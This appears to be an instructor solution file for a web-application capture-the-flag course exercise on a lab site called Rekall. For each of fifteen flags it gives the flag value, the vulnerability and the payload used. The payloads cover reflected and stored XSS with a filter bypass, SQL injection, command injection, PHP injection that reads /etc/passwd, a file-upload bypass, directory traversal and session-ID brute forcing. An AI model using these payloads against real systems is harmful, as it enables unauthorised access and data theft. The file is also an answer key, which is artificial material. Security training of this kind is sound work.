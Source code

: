 ## Day 1 Solution File: Attacking the Web Application CTF

### Flag Solutions

#### Flag 1: f76sdfkg6sjf
- **Location:** `Welcome.php`
- **Vulnerability:** XSS reflected
- **Method/Payload to Exploit:** <script>alert("hi")</script>


#### Flag 2: ksdnd99dkas
- **Location:** `Memory-Planner.php` (first field)
- **Vulnerability:** XSS reflected (advanced)
- **Method/Payload to Exploit:** The input validation removes the word "script," so the word "script" needs to be split up in the payload&mdash;for example: `<SCRIPscriptT>alert("hi")</SCRIPscripTt>`

#### Flag 3: sd7fk1nctx
- **Location:** `comments.php`
- **Vulnerability:** XSS Stored
- **Method/Payload to Exploit:** <script>alert("hi")</script>

#### Flag 4: nckd97dk6sh2
- **Location:** `About-Rekall.php`
- **Vulnerability:** Sensitive data exposure
- **Method/Payload to Exploit:** The flag appears in the HTTP response headers. These headers can be seen using BURP or via a cURL request, such as:
   - `curl -v http://192.168.14.35/About-Rekall.php`

#### Flag 5: mmssdi73g
- **Location:** `Memory-Planner.php` (second field)
- **Vulnerability:** Local file inclusion
- **Method/Payload to Exploit:** Uploading any PHP file will provide the flag.


#### Flag 6: ld8skd62hdd
- **Location:** `Memory-Planner.php` (third field)
- **Vulnerability:** Local file inclusion (advanced)
- **Method/Payload to Exploit:** The input validation checks for the presence of `.jpg`, so to bypass this upload, name your malicious script with this name: `script.jpg.php`


#### Flag 7: bcs92sjsk233 
- **Location:** `Login.php` (first field)
- **Vulnerability:** SQL injection
- **Method/Payload to Exploit:**  In the password field, use the following payload: `ok' or 1=1-- `

#### Flag 8: 87fsdkf6djf
- **Location:** `Login.php` (second field)
- **Vulnerability:** Sensitive data exposure
- **Method/Payload to Exploit:** The username and password are in the HTML, or you can view them by highlighting the webpage.
  - Username: `dougquaid`
  - Password: `kuato`


#### Flag 9: dkkdudfkdy23
- **Location:** `robots.txt`
- **Vulnerability:** Sensitive data exposure
- **Method/Payload to Exploit:** Just access the webpage.


#### Flag 10: ksdnd99dkas 
- **Location:** `networking.php` (first field)
- **Vulnerability:** Command injection
- **Method/Payload to Exploit:**  `www.welcometorecall.com && cat vendors.txt` or `www.welcometorecall.com ; cat vendors.txt`


#### Flag 11: opshdkasy78s
- **Location:** `networking.php` (second field)
- **Vulnerability:** Command injection (advanced)
- **Method/Payload to Exploit:** Input validation strips "&" and ";", so the payload will need to be `www.welcometorecall.com | cat vendors.txt`

#### Flag 12: hsk23oncsd 
- **Location:** `Login.php` (second field)
- **Vulnerability:** Brute force attack
- **Method/Payload to Exploit:** Using the vulnerability in Flag 10 or 11 and viewing the `/etc/passwd` file, you'll see a user `melina`. This user has the same password: `melina`


#### Flag 13: jdka7sk23dd
- **Location:** `souvenirs.php`
- **Vulnerability:** PHP injection
- **Method/Payload to Exploit:** This hidden webpage was identified in the `robots.txt` file found in Flag 9. The payload to exploit this page is changing the URL to:
   - `http://192.168.13.35/souvenirs.php?message=""; system('cat /etc/passwd')` OR `http://192.168.13.35/souvenirs.php?message=%22%22;%20passthru(%27cat%20/etc/passwd%27)`


#### Flag 14: dks93jdlsd7dj 
- **Location:** `admin_legal_data.php`
- **Vulnerability:** Session management 
- **Method/Payload to Exploit:** The link to this page is provided when Flag 12 is acquired. To view the flag, you will need to test out different session IDs in the URL with Burp. (Intruder would be the most efficient.) **87** is the secret session ID that provides the flag (http://192.168.13.35/admin_legal_data.php?admin=87).


#### Flag 15: dksdf7sjd5sg
- **Location:** `Disclaimer.php`
- **Vulnerability:** Directory traversal
- **Method/Payload to Exploit:** The hint on this page indicates this is the "new" disclaimer. Using the vulnerability from Flag 10 or Flag 11, you can run `ls` to see the `old_disclaimers` directory. Using that finding, change the URL to: `http://192.168.13.35/disclaimer.php?page=old_disclaimers/disclaimer_1.txt`    
  - Note that the resource changed from `disclaimer_2.txt` to `disclaimer_1.txt`, as this is the older version.

---

© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.